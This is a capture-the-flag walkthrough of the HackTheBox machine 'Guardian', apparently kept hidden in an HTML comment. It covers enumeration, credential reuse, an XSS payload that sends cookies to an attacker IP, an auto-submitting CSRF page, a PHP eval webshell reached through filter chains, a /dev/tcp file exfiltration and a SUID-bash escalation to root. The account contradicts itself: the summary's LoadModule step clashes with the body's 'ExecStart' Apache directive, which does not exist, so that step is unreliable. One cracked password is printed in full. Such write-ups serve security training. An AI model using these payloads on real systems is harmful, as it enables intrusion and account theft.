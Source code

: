# Gurdian

```
Difficulty: Hard
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Details |
| :--- | :--- | :--- | :--- |
| 1 | `(Local)` | Nmap Scan, Subdomain Enumeration | The initial Nmap scan revealed ports 22 (SSH) and 80 (HTTP). Browsing the main website at `guardian.htb` led to the discovery of the `portal.guardian.htb` subdomain within the page's source code. The portal's "Help" page provided the default password `GUXXXX` for students. |
| 2 | `GU0142023` | Credential Reuse, Portal Enumeration | A student ID from the main site (`GU0142023`) combined with the default password `GUXXXX` granted access to the student portal. Once inside, enumerating a chat feature by brute-forcing the `chat_users` parameter revealed a chat log containing Gitea credentials for the user `jamil.enockson`. |
| 3 | `jamil.enockson` | Information Gathering (Gitea) | Logging into the Gitea instance with `jamil.enockson`'s credentials exposed the source code for the student portal. This included the `config/config.php` file, which contained the database credentials (`root:Gu4rd14nXXXXXXXXXXXXXXXX`) and the password salt (`8Sb)tXXXXXXX`). The code also revealed an admin user account. |
| 4 | `admin (via XSS)` | Cross-Site Scripting (XSS), Stolen Cookie | The portal's file upload feature for spreadsheets was vulnerable to an XSS attack via the `PhpSpreadsheet` library. A malicious `.xlsx` file with a sheet name set to an XSS payload `<script>location.href='http://[your_ip]?c='+document.cookie</script>` was uploaded. When the admin user reviewed this file, their session cookie was sent to our listener. |
| 5 | `attacker (via CSRF)` | Cross-Site Request Forgery (CSRF) | An analysis of the `createuser.php` and `csrf-tokens.php` files in the Gitea repository revealed a CSRF vulnerability. The `is_valid_token` function checked for the presence of a token but never removed it from the pool. We created a malicious HTML file (`exploit.html`) with a valid, previously seen CSRF token. This file was hosted and then its URL was sent to the admin via the Notice Board, resulting in the creation of a new admin account with our chosen credentials. |
| 6 | `jamil` | Password Cracking (Database Dump) | With access to the database credentials from step 3, we connected to the MySQL server and dumped the `users` table. The password hashes were a salted SHA256. Using the salt `8Sb)tXXXXXXX`, we cracked the hash for `jamil.enockson` (`c1d8dfaeeXXXXXXff4f9a43ee440250`), revealing the password `coXXXXXXX`. This allowed us to log in via SSH as the `jamil` user. |
| 7 | `mark` | `sudo` Permission Abuse, File Modification | As `jamil`, the `sudo -l` command showed that we could run `/opt/scripts/utilities/utilities.py` as the user `mark` without a password. The script's `system-status` function was callable by any user. By exploiting the group-write permissions on the `status.py` file, we added a reverse shell command to the `system_status()` function. Executing the script then granted a shell as `mark`. |
| 8 | `root` | `sudo` Permission Abuse, Binary Exploitation (LPE) | Checking `sudo -l` as `mark` revealed that the user could run `/usr/local/bin/safeapache2ctl` as root. A decompiled analysis of this binary showed it was a secure wrapper for `apache2ctl`, but it contained a flawed logic for validating the `-f` flag. The binary allowed the `LoadModule` directive if the specified path was within `/home/mark/confs/`, even if it pointed to a malicious file. We created a small C program to set the SUID bit on `/bin/bash`, compiled it into a shared object (`.so`) file, and wrote a simple Apache config file to load it. Running the binary with `sudo` executed our payload, granting a root shell by running `bash -p`. |



### Initial Enumeration and Subdomain Discovery

1.  **Nmap Scan:** Begin with a comprehensive Nmap scan to identify open ports and services on the target machine.
    ```bash
    nmap -p- -T4 guardian.htb
    ```
    The scan reveals ports **22 (SSH)** and **80 (HTTP)** are open.
2.  **Web Enumeration:** Access the main website on `http://guardian.htb`. The page source reveals a subdomain, `portal.guardian.htb`.

![Portal](Pictures/htb_guardian_portal.png)


3.  **Subdomain Access:** Add `guardian.htb` and `portal.guardian.htb` to your `/etc/hosts` file.
    ```bash
    echo "10.10.11.84 guardian.htb portal.guardian.htb gitea.guardian.htb" | sudo tee -a /etc/hosts
    ```
4.  **Portal Analysis:** Navigate to `http://portal.guardian.htb`. This is a student login portal. The **Help** section reveals the default password for new students is **GUXXXX**. The main page of `guardian.htb` lists several student email addresses, which can be used to infer the username format: `GU[ID]`.

![Code](Pictures/htb_guardian_web.png)

![Help](Pictures/htb_guardian_help_pass.png)

-----

### Gaining Initial Access (Jamil)

1.  **Login to the Portal:** Try the default password with a student username from the main site.
      * **Username:** `GU0142023`
      * **Password:** `GUXXXX`
        This successfully logs you into the portal.

2.  **Information Gathering:** Explore the portal. The chat feature URL, `chat.php`, has a `chat_users` parameter, which is vulnerable to a numeric ID enumeration.

3. 

**Method 1**

 **Chat User Enumeration:** Use a tool like **ffuf** to brute-force the `chat_users` parameter and uncover a new chat log.
    ```bash
    ffuf -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2' -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ2 -mode clusterbomb -H 'Cookie: PHPSESSID=[your_session_id]' -fl 178,164
    ```

    ***Note:** Replace `[your_session_id]` with your active session cookie.*

**Method 2**

     **Intercept the Request**
   - Open the chat page in your browser.
   - Capture the request to `chat.php` with `chat_users[0]` and `chat_users[1]` parameters.
   - Example request:
     ```
     GET /student/chat.php?chat_users[0]=12345678&chat_users[1]=87654321 HTTP/1.1
     Cookie: PHPSESSID=[your_session_id]
     ```

    **Send to Intruder**
   - Right-click the intercepted request → **Send to Intruder**.

    **Configure Positions**
   - Go to **Intruder → Positions**.
   - Highlight the values of `chat_users[0]` and `chat_users[1]` and click **Add §**.
   - Set **Attack type** → **Cluster Bomb**.

    **Load Payloads**
   - **Payload Set 1** (chat_users[0]):
     - Select **Simple list** → Load `/usr/share/seclists/Fuzzing/8-digit-numbers.txt`.
   - **Payload Set 2** (chat_users[1]):
     - Select **Simple list** → Load the same wordlist.

    **Configure Filters (Optional)**
   - Go to **Options → Response length / status code filters**.
   - Filter out irrelevant responses by content length (e.g., `178, 164`) or other indicators.

    **Start Attack**
   - Click **Start attack**.
   - Review responses for valid chat logs (different length or keywords indicate success).

![Gitea_pass](Pictures/htb_guardian_gitea_pass.png)



    The output reveals a chat between user IDs **1** and **2**. The chat reveals credentials for a Git server.
      * **Username:** `jamil.enockson@guardian.htb`
      * **Password:** `DHsNnXXXXXX`

4.  **Gitea Login:** Access `http://guardian.htb/gitea` and log in with the newfound credentials.

![Gitea_login](Pictures/htb_guardian_gitea_login.png)

-----

### Privilege Escalation (Web)

1.  **Database Credentials:** Within the Gitea repository for the `portal.guardian.htb` project, find the `config/config.php` file. This file contains the database credentials.
      * **Username:** `root`
      * **Password:** `Gu4rd14nXXXXXXXXXXXXXXXX`
      * **Salt:** `8Sb)tXXXXXXX`

      ![Domain_User](Pictures/htb_guardian_db_root_login.png)


2.  **XSS Vulnerability :** A vulnerability exists in the `PhpSpreadsheet` library used by the portal. The `generateNavigation()` function is susceptible to **Cross-Site Scripting (XSS)** via a maliciously crafted spreadsheet with a specific sheet name.

![Vulnerable](Pictures/htb_guardian_dependenciesw.png)

      * Create a spreadsheet (e.g., using FastGrid or a Python library like `openpyxl`).
      * Set the sheet name to an XSS payload, such as `<script>location.href='http://[your_ip]?c='+document.cookie</script>`.

![Excel](Pictures/htb_guardian_re.png)

      * Upload the `.xlsx` file to the portal's upload endpoint.


3.  **CSRF (Teacher):** When the Admin user views the uploaded spreadsheet, the XSS payload will fire, sending their session cookie to your listener.
      * Set up a netcat listener on your machine: `python -m http.server 80`.
      * The listener will capture the Teacher's `PHPSESSID`.
      ![Teacher_Owned](Pictures/htb_guardian_techer_session.png)
      * Use this new session ID to access the learner portal

![Learner_Portal](Pictures/htb_guardian_techer_session_web.png)

CSRF_Token


4.  **Admin Panel Analysis:** The `createuser.php` file in the Gitea repository reveals a **Cross-Site Request Forgery (CSRF)** vulnerability. The CSRF token validation logic in `csrf-tokens.php` is flawed; it checks if a token exists but never removes it from the pool.

```
<?php
require '../includes/auth.php';
require '../config/db.php';
require '../models/User.php';
require '../config/csrf-tokens.php';

$token = bin2hex(random_bytes(16));
add_token_to_pool($token);

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$config = require '../config/config.php';
$salt = $config['salt'];

$userModel = new User($pdo);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    $csrf_token = $_POST['csrf_token'] ?? '';

    if (!is_valid_token($csrf_token)) {
        die("Invalid CSRF token!");
    }

    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    $full_name = $_POST['full_name'] ?? '';
    $email = $_POST['email'] ?? '';
    $dob = $_POST['dob'] ?? '';
    $address = $_POST['address'] ?? '';
    $user_role = $_POST['user_role'] ?? '';

    // Check for empty fields
    if (empty($username) || empty($password) || empty($full_name) || empty($email) || empty($dob) || empty($address) || empty($user_role)) {
        $error = "All fields are required. Please fill in all fields.";
    } else {
        $password = hash('sha256', $password . $salt);

        $data = [
            'username' => $username,
            'password_hash' => $password,
            'full_name' => $full_name,
            'email' => $email,
            'dob' => $dob,
            'address' => $address,
            'user_role' => $user_role
        ];

        if ($userModel->create($data)) {
            header('Location: /admin/users.php?created=true');
            exit();
        } else {
            $error = "Failed to create user. Please try again.";
        }
    }
}
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Create User - Admin Dashboard</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
        }

        .sidebar {
            flex-shrink: 0;
            width: 15rem;
            background-color: #1a202c;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar">
       
        <?php include '../includes/admin/sidebar.php'; ?>
    </div>

    
    <div class="main-content">
        <nav class="bg-white shadow-sm">
            <div class="mx-6 py-4">
                <h1 class="text-2xl font-semibold text-gray-800">Create New User</h1>
            </div>
        </nav>

        <div class="p-6">
            <div class="bg-white rounded-lg shadow p-6">
                <?php if (isset($error)): ?>
                    <div class="bg-red-100 text-red-700 p-4 rounded mb-4">
                        <?php echo htmlspecialchars($error); ?>
                    </div>
                <?php endif; ?>
                <form method="POST" class="space-y-4">
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Username</label>
                        <input type="text" name="username" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Password</label>
                        <input type="password" name="password" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Full Name</label>
                        <input type="text" name="full_name" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Email</label>
                        <input type="email" name="email" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Date of Birth (YYYY-MM-DD)</label>
                        <input type="date" name="dob" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Address</label>
                        <textarea name="address" rows="3" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500"></textarea>
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">User Role</label>
                        <select name="user_role" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                            <option value="student">Student</option>
                            <option value="lecturer">Lecturer</option>
                            <option value="admin">Admin</option>
                        </select>
                    </div>
                    <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($token) ?>">
                    <div class="flex justify-end">
                        <button type="submit" class="bg-indigo-600 text-white px-4 py-2 rounded-lg hover:bg-indigo-700">
                            Create User
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</body>

</html>
```





      * Create a simple HTML file (`exploit.html`) that uses a known CSRF token to submit a `POST` request to `createuser.php` to create a new admin user.
![Create_User](Pictures/htb_guardian_admin_code.png)
      * The `csrf_token` can be taken from the page source of `createuser.php`.

 Token Logic     
```
<?php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}
```

![CSRF_Logic](Pictures/htb_guardian_admin_csrf_logic.png)

![Token_Value](Pictures/htb_guardian_admin_csrf_token.png)

      * Host this HTML file on a web server on your machine.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit</title>
</head>
<body>
<h1>CSRF Exploit Test</h1>
<form id="csrfForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="password" value="P@ssw0rd123">
    <input type="hidden" name="full_name" value="Attacker User">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="dob" value="1990-01-01">
    <input type="hidden" name="address" value="123 Hackers Street">
    <input type="hidden" name="user_role" value="admin">
    <input type="hidden" name="csrf_token" value="14b64777f2548919f7bed8eb22168c3a">
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
</body>
</html>
```

      * Send the link to the Admin user via the Notice Board on the portal, which is a monitored resource.

![Notice](Pictures/htb_guardian_admin_xss_link.png)
![Link](Pictures/htb_guardian_admin_notice_link.png)

      * The admin's browser will execute the HTML, creating a new admin account for you.

      * **New Credentials:** `username: attacker`, `password: P@ssw0rd123`

![Admin_Panel](Pictures/htb_guardian_admin_panel.png)

## Local File Inclusion (LFI)

The admin panel's "Reports" section has a `file` parameter in its URL, suggesting a potential Local File Inclusion (LFI) vulnerability.

![LFI](Pictures/htb_guardian_reports_LFI.png)

However, a direct attempt to read a file like `/etc/passwd` fails due to security restrictions. The `report.php` source code, found in the Gitea repository, reveals the reasons for this failure.

```php
<?php
require '../includes/auth.php';
require '../config/db.php';
if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}
$report = $_GET['report'] ?? 'reports/academic.php';
if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}
if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}
?>
```

The code implements two main security checks:

1.  **Directory Traversal Filter:** The `strpos($report, '..')` check prevents any path traversal attempts using `..`.
2.  **Filename Whitelist:** The `preg_match` function restricts the `report` parameter to end with one of four specific filenames: `enrollment.php`, `academic.php`, `financial.php`, or `system.php`.

### Exploiting with PHP Filter Chains

Since we cannot use path traversal, we can leverage **PHP filter chains** to bypass the filename whitelist and read arbitrary files. A filter chain allows for base64 encoding or decoding of file contents, which doesn't trigger the filename check at the end of the URL.

A payload can be crafted to use a filter chain to convert a PHP reverse shell payload into a format that can be written to a temporary file, which is then included and executed. The filename `system.php` is appended to the end of the chain to satisfy the `preg_match` check without affecting the filter's output.

A Python tool like `php_filter_chain_generator.py` can be used to create the necessary payload.

```bash
python php_filter_chain_generator.py --chain '<?php eval($_POST["a"]);?>'
```

This generates a long, complex PHP filter chain that, when used in the `report` parameter, will execute the provided PHP code.


reports.php

```
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Reports Menu</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
            background-color: #f3f4f6;
        }

        .sidebar {
            flex-shrink: 0;
            background-color: #1e293b;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar"><?php include '../includes/admin/sidebar.php'; ?></div>
    <div class="main-content">
        <div class="flex-1 p-10">
            <h1 class="text-3xl font-bold mb-6 text-gray-800">Reports Menu</h1>
            <div class="grid grid-cols-1 md:grid-cols-2 gap-6">
                <a href="?report=reports/enrollment.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-blue-600">Enrollment Report</h2>
                    <p class="text-gray-600">View enrollment statistics and trends.</p>
                </a>
                <a href="?report=reports/academic.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-purple-600">Academic Report</h2>
                    <p class="text-gray-600">Explore academic data like GPA and faculty info.</p>
                </a>
                <a href="?report=reports/financial.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-green-600">Financial Report</h2>
                    <p class="text-gray-600">Review financial figures and revenue trends.</p>
                </a>
                <a href="?report=reports/system.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-indigo-600">System Report</h2>
                    <p class="text-gray-600">Check system health and usage statistics.</p>
                </a>
            </div>
           
            <?php include($report); ?>
            
        </div>
    </div>
</body>

</html>
```

### Getting a Reverse Shell

The final URL for the LFI exploit is constructed by appending the generated filter chain and the whitelisted filename (`system.php`) to the `report.php` endpoint.

```
http://portal.guardian.htb/admin/reports.php?report=PHP_FILTER_CHAINS,system.php
```

After visiting this URL, a reverse shell can be triggered by sending a `POST` request with the `a` parameter to the same URL, which will execute the `eval()` function, leading to a shell on the server.

![Shell](Pictures/htb_guardian_reports_LFI_php.png)


5.  **SQL Database Exploration:** Use the `root` database credentials to connect to the MySQL instance from your shell (after gaining a shell, see the next step). The `users` table contains password hashes.

![hash](Pictures/htb_guardian_crackpass_hash.png)

![Code](Pictures/htb_guardian_crackpass_code.png)


      * The password hashing function is `hash('sha256', $password . $salt)`.
      * The salt, `8Sb)tXXXXXXX`, is found in `config.php`.
      * Use a tool like John the Ripper or a Python script to crack the hashes.
      * The hash for `jamil.enockson` cracks to `copperhouse56`.

![Password](Pictures/htb_guardian_crackpass.png)

6.  **SSH to Jamil's Account:** Use the cracked password to SSH into the machine as `jamil`.
    ```bash
    ssh jamil@guardian.htb
    ```
    This grants you initial user access.

![User_flag](Pictures/htb_guardian_User_flag.png)

As the user `jamil`, you can escalate privileges to `mark` by exploiting a misconfiguration in the `sudo` permissions and file system.

-----

### Privilege Escalation from Jamil to Mark

The `sudo -l` command for the `jamil` user shows that you can run the `/opt/scripts/utilities/utilities.py` script as the `mark` user without needing a password.

![Misconfig](Pictures/htb_guardian_sudo_l.png)

The script's source code reveals that most functions (`backup-db`, `zip-attachments`, `collect-logs`) require the executing user to be `mark`. However, the `system-status` function has no such restriction, making it accessible to any user who can execute the script.

By inspecting the file permissions within the `/opt/scripts/utilities/utils` directory, you can see that the `admins` group has write permissions. Since the `jamil` user is a member of this group, you can modify the `status.py` file.

The attack vector is to modify the `system_status()` function in `status.py` to contain a reverse shell payload. When you execute the script with `sudo` as `mark`, the modified function will be run, giving you a shell with `mark`'s privileges.

To elevate privileges from the **jamil** user to the **mark** user, you must exploit a misconfigured `sudo` permission and a writable file.



### Gaining a Shell as Mark

1.  **Enumerate Sudo Permissions:** The `sudo -l` command for the `jamil` user reveals the ability to execute the `/opt/scripts/utilities/utilities.py` script as the `mark` user without a password.

![Owned_Mark](Pictures/htb_guardian_owned_mark.png)

View sudo

```
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```
![Owned_Mark](Pictures/htb_guardian_sudol_mark.png)

Get it out and decompile it

```
mark@guardian:~$ cat /usr/local/bin/safeapache2ctl > /dev/tcp/10.10.XX.XX/8888
```

```
 nc -lvnp 8888 > safeapache2ctl                 
listening on [any] 8888 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] 47832
```

![Binary](Pictures/htb_guardian_file_recieved.png)

-----

### Privilege Escalation to Root

After gaining access as `mark`, the final step is to escalate to `root`. Running `sudo -l` again as `mark` reveals that this user can run `/usr/local/bin/safeapache2ctl` as **root** without a password. This binary is the key to achieving full system control.


6. **Binary Analysis:** The `safeapache2ctl` binary is a wrapper for `apache2ctl`. A decompiled analysis shows it restricts the configuration file (`-f`) to a specific directory (`/home/mark/confs/`) and filters dangerous directives like `Include`, `IncludeOptional`, and `LoadModule`.

   * However, the filter is flawed. It only blocks absolute paths that are **not** within `/home/mark/confs/`. This means you can use an `Include` directive to point to a malicious file inside the allowed directory.

7. **Exploitation:**

   * Create a small shell script that will escalate privileges by setting the SUID bit on `/bin/bash`.

   

  

   ```bash
   cat << 'EOF' > /home/mark/confs/run.sh
   #!/bin/bash
   chmod +s /bin/bash
   EOF
   chmod +x /home/mark/confs/run.sh
   ```

   * Create a new Apache configuration file (`evil.inc`) in `/home/mark/confs/` that executes your script.
![Exploitation](Pictures/htb_guardian_Root_logic_priv.png)


   ```bash
   cat << EOF > /home/mark/confs/evil.inc
   <IfModule !dummy_module>
       ExecStart "/home/mark/confs/run.sh"
   </IfModule>
   EOF
   ```

   * Create the main Apache configuration file (`exploit.conf`) that includes your malicious file.

 

   ```bash
   echo "Include /home/mark/confs/evil.inc" > /home/mark/confs/exploit.conf
   ```

   * Execute the binary with `sudo` to load your configuration file.


   ```bash
   sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
   ```


   This will set the SUID bit on `/bin/bash`.

8. **Get Root Shell:** Run `bash` with the `-p` flag to execute it with root permissions.

   ```bash
   /bin/bash -p
   ```

![Root_Flag](Pictures/htb_guardian_Root_flag.png)

   You now have a root shell! You can read the `root.txt` file.

---

**Pwned! Guradian**

-->